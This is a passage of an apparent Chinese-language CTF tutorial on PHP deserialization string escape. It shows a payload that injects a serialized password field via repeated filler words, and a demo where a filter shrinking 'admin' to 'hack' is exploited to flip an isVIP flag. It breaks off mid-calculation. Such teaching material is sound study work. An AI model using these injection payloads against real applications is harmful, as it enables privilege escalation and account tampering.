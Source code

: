 想办法把password='yu22x'传进去，payload为：

```php
FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```

### 过滤后字符变少

首先，和上面的主体代码还是一样，还是同一个class，与之有区别的是过滤函数中，我们将hacker修改为hack。

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('admin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

输出结果：

```php
O:4:"user":3:{s:8:"username";s:5:"hack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

同样比较一下现有子串和目标子串：

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;} //现有子串
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //目标子串
```

因为过滤的时候，将5个字符删减为了4个，所以和上面字符变多的情况相反，随着加入的admin的数量增多，现有子串后面会缩进来。

计算一下目标子串的长度：

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //目标子串
//长度为47
```

